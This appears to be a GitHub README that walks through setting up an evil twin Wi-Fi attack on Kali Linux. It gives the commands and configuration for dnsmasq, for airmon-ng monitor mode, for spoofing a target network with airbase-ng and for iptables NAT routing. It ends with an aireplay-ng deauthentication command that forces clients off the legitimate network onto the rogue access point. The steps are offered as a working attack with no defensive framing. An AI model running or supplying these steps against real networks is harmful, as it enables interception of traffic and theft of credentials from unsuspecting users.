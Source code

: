 How to Setup the Evil Network:
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/

# Prerequisites
- kali linux
- may need an external usb wifi adapter
- sudo apt-get instal dsniff

1. Update Device
	`sudo apt-get update`
	
2. Install dnsmasq
	`apt-get install dnsmasq`
	
3. Configure dns masq
	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`
	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

4. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Connect the usb network adapter
	see that it is connected with: `iwconfig`
	It should be named wlan0 or wlan1

5.5 Ensure the wireless card is not connected to internet
	`nmcli con`
	Disconnect from the network that is connected to our adapteriw
	`nmcli con down <UUID>`

6. Enable the wireless adapter
	`ifconfig wlan1 up`

7. Put the wireless card into network mode with airmon-ng
	- if you don't have the aircrack suite, google it and install it: https://www.aircrack-ng.org/doku.php?id=install_aircrack

	All the tutorials said to listen to airmon and `run airmon-ng check kill` as some services can interfere. But this never worked for me. So I ignore that suggestion.

	run: `airmon-ng start wlan1` to put card into monitor mode

8. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking for best results
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through at0, this has had limited success.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`

14. NOW startup the webserver, see the tutorial for more info

15. Finally run the deauthorization attack and kick people off the legit network onto ours
	- TODO will add details on this later too

16. now deauthorize clients so they connect to our network
	aireplay-ng –deauth 0 -a <BSSID> wlan0mon






